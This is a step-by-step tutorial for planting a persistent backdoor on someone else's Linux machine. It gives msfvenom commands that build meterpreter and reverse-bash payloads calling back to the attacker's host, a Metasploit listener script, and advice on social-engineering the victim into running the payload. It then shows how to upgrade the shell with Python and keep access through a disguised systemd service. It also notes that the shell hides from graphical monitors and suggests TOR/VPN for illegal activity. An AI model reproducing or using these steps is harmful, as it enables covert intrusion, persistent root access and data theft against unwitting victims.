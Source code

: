 # Backdoor to any Linux machine

**Myth:** It is said that Linux is secure and does not have any viruses etc. Let's take a look. There is a general claim that no need for Antivirus software is required either. Well...

We won't create a true virus here. Just a backdoor. However, it opens up many possibilities for further hostile actions against Linux victim machines.

This is just a short tecnical demonstration without any true hostile attempts. Utilizing the method requires social engineering tactics as well.

This method does not require any server software running on the victim's Linux machine. Just a simple client machine is OK, as well.

**This tutorial assumes you will gain access to `sudo` or `root` terminal on victim's Linux machine by using social engineering tactics.**

--------------------

## How-to

**1) Generating backdoor.** Generate a simple Linux backdoor payload. On attacker machine, execute either:

A) Linux x86 binary backdoor payload:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<my_global_ip> lport=<my_global_port> -f elf -a x86 > ~/reverse_backdoor'
```

B) or alternatively generate a shell script backdoor payload:

```
msfvenom -p cmd/unix/reverse_bash LHOST=<my_global_ip> LPORT=<my_global_port> -f raw > reverse_backdoor_bash.sh
```

--------------------

**2) Router settings.** If you are behind a router, do PAT (Port Address Translation) where incoming connections to your router are coming from `<my_global_port>`. Let the router forward those to `<my_local_port>` in your local network.

**3) Metasploit listener script.** On your attack machine, add following file (edit contents as needed) and save it as 'backdoor-listener.rc'

use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <my_local_ip>
set lport <my_local_port>
exploit

This is a metasploit script file we will utilize later. Please pay attention to `<my_local_ip>` and `<my_local_port>` values above.

---------------------------

<my_global_ip>   = IPv4 which is reachable from outside (WAN IPv4), usually provided by your ISP
<my_global_port> = Port number which is accessible from outside (WAN) networks
<my_local_ip>    = IPv4 used by your attack machine on the local network, usually static one or provided by a router
<my_local_port>  = Port number which is accessible on your local network

---------------------------

**4) Start Metasploit listener.** Run the above Metasploit script file with `sudo msfconsole -r backdoor-listener.rc` and keep the listener open on your Linux attack machine.

**5) Victim enticement - execution of the backdoor.** Send msfvenom-generated `reverse_backdoor` binary executable to the Linux victim and encourage him/her to execute it. Requires social engineering tactics.

**6) Who am i and which is my shell?** Once you have connection to the victim's Linux machine, run `whoami`, after which run `shell`. Both in meterpreter console view.

**7) Open Python-based Bash pseudo-shell.** We assume that the victim has python environment. On the opened empty shell view, just run the following commands (we assume the current user's shell is `/bin/bash`):

```
which python
python -c "import pty; pty.spawn('/bin/bash');"
```

On that code above, we check python binary existence on the Linux victim machine. If OK, then you can open bash with pseudo terminal python function.

**8) Prepare your foothold on victim's machine - persistence.** On victim's machine, copy 'reverse_backdoor' binary into `/usr/local/bin/` folder, and run

```
chmod +x /usr/local/bin/reverse_backdoor
```

**9) Add new auto-starting systemd service** Now, insert a new systemd service file 'reverse-backdoor.service' into `/usr/lib/systemd/system/` as follows:

echo -e "[Unit]\nDescription=SSH backdoor\nAfter=network.target network-online.target\n\n[Service]\nType=oneshot\nRemainAfterExit=yes\n\nExecStart=/usr/local/bin/reverse_backdoor\nExecStop=/usr/local/bin/reverse_backdoor\n\n[Install]\nWantedBy=multi-user.target" > /usr/lib/systemd/system/reverse-backdoor.service

**10) Enable the systemd service.** Run

```
sudo systemctl enable reverse-backdoor.service
```

**11) Test the systemd service.** To check if the service file succeeds, check the output of:

```
sudo systemctl start reverse-backdoor.service
```

**12) You are able to connect after victim's reboot.** If Ok, you should be able to login to the victim's Linux machine after rebooting it. Just make sure you have Metasploit TCP Handler/Backdoor listener on stand-by on your Linux attack machine.

-----------------------------------------

**Contents of /usr/lib/systemd/system/reverse-backdoor.service**

The following systemd service file contents is supposed to be added to `/usr/lib/systemd/system/reverse-backdoor.service` on victim's Linux machine.

```
[Unit]
Description=SSH backdoor
After=network.target

[Service]
Type=oneshot
RemainAfterExit=yes

ExecStart=/home/pinqvin/reverse_backdoor_for_ssh.elf
ExecStop=/home/pinqvin/reverse_backdoor_for_ssh.elf

[Install]
WantedBy=multi-user.target
```
-----------------------------------------

**Systemd vs. init**

Of course, you can adapt this systemd service file as `init` script as well. However, majority of Linux distributions come with systemd nowadays, except for Gentoo etc.

**Testing scope**

The instructions has been tested and work as expected. You gain root access on the victim's Linux machine, no matter which network the victim has connected to. According to my remote tester (who was behind NAT), the opened hostile bash shell process is not visible on graphical system monitor view (this applies to XFCE, at least).

Victim can still detect the hostile shell process, other processes and opened network sockets with `netstat/sockstat` commands. However, distinguishing them from friendly processes is another thing...

-----------------------------------------

Simple attack schema:

```
<victim's Linux machine>  <--->  <ISP, etc.>  <--->  <your router>  <--->  <your attack Linux machine>

 <payload executable>                                                        <backdoor listener>
                  |->>       <my_global_ip>  <------------->  <my_local_ip>   <<-|
                  |->>     <my_global_port>  <------------->  <my_local_port> <<-|

    <execute file>      <--------------------------------------------->   <access victim's machine>
                            <<- valuable data, malicious commands ->>
```

In hardened scenarios, using TOR/VPN is recommended to avoid getting caught if illegal activies are performed.

-----------------------------------------
